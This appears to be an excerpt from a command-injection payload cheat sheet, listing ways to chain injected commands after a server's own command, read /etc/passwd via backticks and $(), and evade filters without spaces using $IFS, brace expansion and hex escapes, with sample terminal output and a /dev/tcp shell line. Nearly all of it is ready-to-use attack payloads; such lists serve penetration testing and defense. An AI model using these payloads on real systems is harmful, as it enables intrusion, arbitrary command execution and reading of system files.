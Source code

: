 ### Chaining commands

```markup
original_cmd_by_server ; ls
original_cmd_by_server && ls
original_cmd_by_server | ls
original_cmd_by_server || ls    Only if the first cmd fail
```

### Inside a command

```
original_cmd_by_server `cat /etc/passwd`
original_cmd_by_server $(cat /etc/passwd)
```

### Filter Bypasses

### Bypass without space

#### Works on Linux only.

```
swissky@crashlab:~/Www$ cat</etc/passwd
root:x:0:0:root:/root:/bin/bash

swissky@crashlab▸ ~ ▸ $ {cat,/etc/passwd}
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab▸ ~ ▸ $ cat$IFS/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab▸ ~ ▸ $ echo${IFS}"RCE"${IFS}&&cat${IFS}/etc/passwd
RCE
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab▸ ~ ▸ $ X=$'uname\x20-a'&&$X
Linux crashlab 4.4.X-XX-generic #72-Ubuntu

swissky@crashlab▸ ~ ▸ $ sh</dev/tcp/127.0.0.1/4242
```

#### Commands execution without spaces, $ or { } - Linux (Bash only)

```
IFS=,;`cat<<<uname,-a`
```

#### Works on Windows only.
